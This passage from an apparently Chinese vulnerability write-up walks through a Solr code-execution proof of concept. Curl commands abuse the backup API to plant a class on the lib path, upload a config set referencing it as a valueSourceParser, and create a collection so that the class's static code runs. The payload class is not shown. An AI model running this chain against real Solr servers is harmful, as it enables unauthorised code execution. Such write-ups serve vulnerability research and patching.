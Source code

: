 以下 API 中 location 为要导出的路径，/var/solr/data/是 SOLR_HOME 的路径。name 为导出的名字，其实也就相当于路径的一部分

```sh
curl "http://127.0.0.1:8983/solr/admin/collections?action=BACKUP&collection=collection1&location=/var/solr/data/&name=collection2_shard1_replica_n1"

```

响应完成后，collection1 被导出到了/var/solr/data/collection2_shard1_replica_n1

而它对应的配置被导出到了/var/solr/data/collection2_shard1_replica_n1/collection1/zk_backup_0/configs/

通过备份的接口再次导出 collection1，注意 location 和 name 都有变化：

```sh
curl "http://127.0.0.1:8983/solr/admin/collections?action=BACKUP&collection=collection1&location=/var/solr/data/collection2_shard1_replica_n1&name=lib"
```

这次导出后，会发现我们的 class 最终在/var/solr/data/collection2_shard1_replica_n1/lib/collection1/zk_backup_0/configs/conf1

目录结构 zk_backup_0/configs/conf1 与包名 zk_backup_0.configs.conf1 恰好对应

上传配置文件 conf2
默认配置的 solrconfig.xml 文件有个 valueSourceParser 标签

```xml
<valueSourceParser name="myfunc" class="zk_backup_0.configs.conf1.Exp" />
```

打包上传，命名为 conf2

```sh
tar xvf conf.tar
mv conf conf2
cd conf2
zip -q -r conf2.zip *
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf2.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf2"
```

用 conf2 创建 collection2

```sh
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=collection2&numShards=1&replicationFactor=1&wt=json&collection.configName=conf2"
```

Collection 创建过程中会将 SOLR_HOME/collection2_shard1_replica_n1/lib/下的 jar 包或者一级子目录作为 URLClassLoader 的 urls。并且会加载 solrconfig.xml 中配置的类，从而导致 zk_backup_0.configs.conf1.Exp 类的静态代码被执行

![alt text](poc_success.png)
